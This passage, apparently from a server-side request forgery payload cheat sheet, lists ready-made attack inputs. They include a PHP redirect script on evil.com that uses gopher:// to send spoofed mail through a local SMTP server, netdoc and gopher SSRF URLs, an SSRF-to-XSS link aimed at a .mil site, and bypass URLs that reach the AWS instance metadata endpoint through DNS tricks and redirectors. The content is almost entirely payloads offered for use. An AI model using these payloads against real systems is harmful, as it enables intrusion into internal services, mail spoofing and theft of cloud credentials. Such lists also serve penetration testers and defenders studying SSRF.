 ### **Gopher SMTP - send a mail** ###

```
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### **Netdoc** ###

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```
ssrf.php?url=gopher://127.0.0.1:4242/DATA
```

### **SSRF to XSS** ###

Payload: http://brutelogic.com.br/poc.svg

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg

## **SSRF URL for Cloud Instances** ##

### **AWS**

- DNS record  

http://instance-data  
http://169.254.169.254  
http://metadata.nicob.net/  
http://169.254.169.254.xip.io/  
http://1ynrnhl.xip.io/  
http://www.owasp.org.1ynrnhl.xip.io/  

- HTTP redirect  

Static:http://nicob.net/redir6a  
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-  

